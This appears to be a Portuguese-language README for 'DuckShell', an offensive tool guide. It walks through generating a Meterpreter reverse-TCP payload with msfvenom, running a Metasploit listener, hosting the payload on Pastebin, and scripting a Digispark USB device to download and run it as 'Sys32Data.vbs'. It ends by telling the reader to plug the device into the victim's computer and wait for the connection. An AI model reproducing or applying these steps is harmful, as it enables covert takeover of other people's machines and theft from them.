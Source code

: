 # DuckShell

=========================================================

#Crie seu Payload atraves do Metasploit usando o seguinte codigo>

msfvenom -p windows/meterpreter/reverse_tcp -f vbs –smallest LHOST=“attacker ip” LPORT=444 -o /root/Desktop/payload.txt
(Substitua "attacker ip" pelo seu ip local)

=========================================================

#Execute o Metasploit

systemctl start postgresql
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST "attacker ip"
set RHOST 444
exploit

=========================================================

#Jogue o codigo criado no arquivo "payload.txt" no Pastebin:

https://pastebin.com/
(Clique em "Create New Paste" e copie o a url criada para seu arquivo)

=========================================================

#Modifique o arquivo payload.duck inserindo o link do Pastebin na seguinte linha:

(Substitua >>link<< pelo link do Pastebin)
STRING $client.DownloadFile(' >>link<< ','Sys32Data.vbs')

=========================================================

#Execute o duckencoder no arquivo payload.duck

cat payload.duck | python duckencoder.py -p -l br > inject.bin

=========================================================

#Excute o duck2spark no arquivo inject.bin

./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino

=========================================================

#Abra o arquivo inject.ino no Arduino
Site Download Arduino

Windows(https://www.arduino.cc/download.php?f=/arduino-1.8.5-windows.exe)
Linux(https://www.arduino.cc/download_handler.php?f=/arduino-1.8.5-linux64.tar.xz)

=========================================================

#Carregue o codigo através do Arduino em seu Digispark
Site Compra
(https://www.baudaeletronica.com.br/digispark-attiny85.html?gclid=CjwKCAjw8NfrBRA7EiwAfiVJpbY-3W7UOWFbtM9CaCiscVXVHin11btfv47m_17zTJEQGgbhG_D4zhoCnt8QAvD_BwE)

=========================================================

#Agora Basta Apenas Conectar ao Computador da Vitima e esperar a Conexão :)

=========================================================

